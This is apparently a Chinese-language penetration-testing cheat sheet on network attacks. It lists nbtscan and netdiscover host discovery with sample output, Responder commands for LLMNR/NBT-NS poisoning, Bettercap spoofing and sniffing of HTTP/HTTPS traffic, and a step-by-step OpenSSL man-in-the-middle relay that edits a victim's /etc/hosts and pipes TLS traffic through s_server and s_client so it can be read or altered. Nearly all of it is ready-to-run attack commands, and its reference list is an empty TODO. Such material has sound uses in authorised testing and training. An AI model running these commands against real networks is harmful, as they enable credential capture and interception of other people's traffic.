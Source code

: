 如果您在使用nbtscan时遇到段错误，请阅读以下引用。

> 广播地址（.0）上权限被拒绝，它在网关（.1）上发生段错误 - 这里其他地址似乎都没问题。因此，为了缓解问题：nbtscan 192.168.0.2-255

## Netdiscover

```powershell
netdiscover -i eth0 -r 192.168.1.0/24
当前扫描：已完成！   |   屏幕视图：唯一主机

捕获的ARP请求/响应数据包：20个，来自4个主机。 总大小：876
_____________________________________________________________________________
IP            在MAC地址     计数     长度  MAC供应商/主机名
-----------------------------------------------------------------------------
192.168.1.AA    68:AA:AA:AA:AA:AA     15     630  Sagemcom
192.168.1.XX    52:XX:XX:XX:XX:XX      1      60  未知供应商
192.168.1.YY    24:YY:YY:YY:YY:YY      1      60  QNAP Systems, Inc.
192.168.1.ZZ    b8:ZZ:ZZ:ZZ:ZZ:ZZ      3     126  华为技术有限公司
```

## Responder

```powershell
responder -I eth0 -A # 查看NBT-NS、BROWSER、LLMNR请求而不响应。
responder.py -I eth0 -wrf
```

或者您可以使用[Windows版本](https://github.com/lgandx/Responder-Windows)

## Bettercap

```powershell
bettercap -X --proxy --proxy-https -T <目标IP>
# 更好的帽子在欺骗，发现，嗅探
# 拦截http和https请求，
# 仅针对特定IP
```

## 使用OpenSSL进行SSL MITM

此代码片段允许您在使用openssl的情况下，如果存在MITM漏洞，嗅探/修改SSL流量。
如果您可以修改客户端的`/etc/hosts`：

```powershell
sudo echo "[OPENSSL服务器地址] [要MITM的服务器的域]" >> /etc/hosts  # 在客户端主机上
```

在我们的MITM服务器上，如果客户端接受自签名证书（如果您有合法服务器的私钥，则可以使用合法证书）：

```powershell
openssl req -subj '/CN=[要MITM的服务器的域]' -batch -new -x509 -days 365 -nodes -out server.pem -keyout server.pem
```

在我们的MITM服务器上，我们设置我们的基础设施：

```powershell
mkfifo response
sudo openssl s_server -cert server.pem -accept [要监听的网络接口]:[端口] -quiet < response | tee | openssl s_client -quiet -servername [要MITM的服务器的域] -connect [要MITM的服务器的IP]:[端口] | tee | cat > response
```

在这个例子中，流量仅通过`tee`显示，但我们可以通过例如`sed`来修改它。

## 参考资料

* [TODO](TODO)
